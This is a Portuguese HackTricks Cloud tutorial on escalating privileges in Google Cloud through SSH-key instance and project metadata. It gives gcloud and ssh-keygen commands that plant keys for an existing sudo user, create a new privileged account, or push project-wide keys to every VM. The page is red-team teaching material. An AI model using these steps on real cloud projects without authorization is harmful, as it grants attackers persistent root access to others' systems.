 # GCP - Adicionar Metadados SSH Personalizados

## GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos de segurança significativos se um atacante obtiver as permissões necessárias**.

#### **Incorporação de Chaves SSH em Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um atacante puder modificar metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada ao sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o atacante poderá comprometer o host.

#### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existentes na Instância:**
*   Execute o comando para descrever a instância e seus metadados para localizar chaves SSH existentes. A seção relevante na saída estará sob `metadata`, especificamente a chave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separado por dois pontos.
2. **Preparar um Arquivo de Texto para Metadados da Chave SSH:**
* Salve os detalhes dos nomes de usuários e suas respectivas chaves SSH em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes enquanto adiciona novas.
3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
*   Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.
4. **Atualizar os Metadados da Chave SSH da Instância:**
*   Aplique os metadados atualizados da chave SSH à instância usando o comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acessar a Instância Usando a Nova Chave SSH:**
*   Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chaves SSH em nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem **aplicando chaves SSH em nível de projeto**. Essa abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em nível de projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH em Nível de Projeto:**
*   Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH do `meta.txt` aos metadados do projeto. Essa ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em nível de projeto" habilitada.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH em Instâncias Usando Chaves em Nível de Projeto:**
* Com as chaves SSH em nível de projeto em vigor, você pode SSH em qualquer instância dentro do projeto. Instâncias que não bloqueiam chaves em nível de projeto aceitarão a chave SSH, concedendo acesso.
* Um método direto para SSH em uma instância é usar o comando `gcloud compute ssh [INSTANCE]`. Este comando usa seu nome de usuário atual e as chaves SSH definidas em nível de projeto para tentar o acesso.

## Referências

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
